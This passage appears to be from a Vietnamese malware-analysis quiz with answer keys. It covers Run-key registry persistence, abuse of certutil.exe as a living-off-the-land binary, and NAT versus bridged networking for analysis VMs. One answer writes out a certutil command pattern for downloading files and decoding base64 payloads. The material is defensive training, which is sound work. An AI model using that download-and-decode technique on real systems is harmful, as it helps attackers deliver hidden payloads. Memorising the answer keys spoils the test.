    Registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` là một trong các key persistence phổ biến nhất. Bất kỳ value nào trong key này sẽ được tự động thực thi khi Windows khởi động (cho tất cả users với HKLM, hoặc chỉ user hiện tại với HKCU).

---

**Câu 54.** Certutil.exe là LOLBAS có thể bị lạm dụng như thế nào?

- A. Chỉ dùng để quản lý certificate, không bị lạm dụng được
- B. Có thể dùng để download file từ Internet và encode/decode base64, che giấu payload
- C. Chỉ dùng để verify chữ ký số
- D. Chỉ chạy trong context SYSTEM

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Certutil.exe là công cụ quản lý certificate của Windows nhưng có chức năng bất ngờ: có thể download file từ URL (`certutil -urlcache -f http://... output.exe`), encode/decode base64 (`certutil -encode` / `-decode`). Kẻ tấn công dùng nó để download và decode payload mà không cần PowerShell.

---

**Câu 55.** Điểm khác biệt quan trọng giữa NAT networking và Bridged networking trong VMware khi phân tích mã độc là gì?

- A. NAT nhanh hơn Bridged
- B. NAT đặt virtual router giữa VM và LAN thật nên mã độc không thể trực tiếp tấn công các máy trong LAN; Bridged kết nối VM trực tiếp vào LAN, mã độc có thể tấn công toàn bộ mạng
- C. Bridged không hỗ trợ DHCP
- D. NAT và Bridged giống nhau về mặt bảo mật

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    NAT: Virtual router ẩn IP thật của VM sau NAT IP. Mã độc chỉ thấy virtual router. Các máy trong LAN không thể bị kết nối trực tiếp từ VM. Bridged: VM có IP trong cùng subnet với LAN thật. Mã độc có thể port scan, tấn công, lây lan sang tất cả máy trong LAN — cực kỳ nguy hiểm.